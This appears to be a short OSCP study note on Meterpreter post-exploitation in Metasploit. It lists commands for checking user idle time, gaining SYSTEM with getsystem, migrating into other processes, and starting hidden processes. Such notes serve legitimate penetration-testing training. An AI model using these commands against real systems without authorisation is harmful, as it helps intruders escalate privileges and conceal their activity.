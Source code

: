 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/11-metasploit-framework/5-meterpreter-post-exploitation/"}
---
```


------
### User activity on target:
```
idletime
```

### Getsystem:
```
getsystem
```
------------
### Process Tampering:

Process Injection
- Can only migrate to same or lower privs
- New shell will inherit that process' privileges and user
```
#Enumerate processes:
ps

#Inject process:
migrate <pid>
```

Create new process:
- -H for hidden
- -F to specify program to run
```
execute -H -f notepad
```


